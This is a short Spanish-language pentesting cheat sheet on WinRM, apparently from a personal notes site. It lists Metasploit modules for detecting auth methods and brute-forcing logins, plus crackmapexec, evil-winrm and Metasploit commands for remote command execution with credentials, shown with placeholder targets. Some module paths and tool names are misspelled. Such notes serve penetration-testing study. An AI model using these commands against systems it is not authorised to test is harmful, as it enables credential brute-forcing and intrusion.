 ```yaml
---
title: "WinRM"
layout: "single"
category: "Servicios comunes"
slug: "servicios-comunes/winrm"
date: "2025-09-30"
---
```


### Enumeracion
Si ya tenemos algun usuario mucho mejor, sino podemos tratar de realizar un ataque de fuerza bruta.

![[2 - Enumeracion#Enumerar usuarios Active Directory]]

#### WinRM Auth method detection
```bash
metasploit:
#Winrm Auth method detection
/auxiliary/scanner/wirm/winrm_auth_methods
```

#### WinRM login fuerza bruta
```bash
metasploit:
#Winrm Login utility
/auxiliary/scanner/wirm/winrm_login

## AQUIÍ INTERESA USAR UN FICHERO CON USUARIOS Y CONTRASEÑAS, O SI SE TIENE USUARIO, HACER FUERZA BRUTA A LA PASS.

```
### Ejecución de comandos
#### WinRM RCE crackmapexec
```bash
crackmapexec winrm <ip> -u <usuario> -p <pass> -x "Comando"
```

#### WinRM RCE evil-winrm
```bash
eavil-winrm -u <usuario> -p <pass> -i <ip>
```

#### WinRM RCE metasploit
```bash
use exploit/windows/winrm/winrm_script_exec
#si no tira, habilitamos la opcion (set FORCE_VBS en true)

##teniendo credenciales se puede ejecutar comandos
auxiliary/scanner/winrm/winrm_cmd
```


